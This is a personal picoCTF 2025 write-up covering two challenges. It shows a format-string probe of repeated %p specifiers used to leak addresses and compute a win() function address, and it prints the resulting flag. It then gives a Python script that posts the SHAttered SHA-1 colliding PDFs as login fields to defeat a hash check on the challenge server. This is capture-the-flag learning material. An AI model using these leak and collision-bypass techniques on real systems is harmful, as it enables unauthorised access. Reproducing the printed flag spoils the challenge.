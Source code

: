 ![image.png](Pico%20CTF%E2%80%9925%201b096dd5262f801da22feb57955361ab/image%2011.png)

- So, the name might have something to do. It turns out that print(buffer) has a vulnerability so when i entered

```bash
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
```

- This gave address of all the function call
- Main- 0x5e3115174400 → Win() 0x5e3115174400 - 0x96 = 0x5e311517436a
- With this I computed the address of win()

![image.png](Pico%20CTF%E2%80%9925%201b096dd5262f801da22feb57955361ab/image%2012.png)

### Flag

picoCTF{p13_5h0u1dn'7_134k_bb903549}

---

# Apriti Sesamo

- The emacs hardcore user hint was helpful.
- With that i tried adding extensions to the URL of the website .bak,~. Only ~ worked
- It revealed that the coder checks if the 2 inputs are same and their sha1 is different
- So i searched for precomputed strings, tried tools like hashclash to generate, but nope
- After several days, just 30mins before the deadline, i thought what if i sent the raw data of the pdfs as input
- So i used strings to get it. Amateur me, didn’t know that it only gets human readable chars and leaves out the rest of it.
- Then i thought of sending the entire pdf as raw binary, but didn’t know how. That is when ChatGPT (or GPT bhaiya as I like to call him lol) helped me write a script that send the contents of the pdf as raw

```python
import requests

url = "http://verbal-sleep.picoctf.net:63131/impossibleLogin.php"

# Replace with the correct paths for both colliding files.
file1_path = r"C:<path>\shattered-1.pdf"
file2_path = r"C:<path>\shattered-2.pdf"

# Read the files in binary mode to preserve every byte.
with open(file1_path, "rb") as f1:
    content1 = f1.read()
with open(file2_path, "rb") as f2:
    content2 = f2.read()

# Construct the POST payload with the raw binary data.
payload = {
    "username": content1,
    "pwd": content2,
}

# Send the POST request.
response = requests.post(url, data=payload)
print(response.text)

```
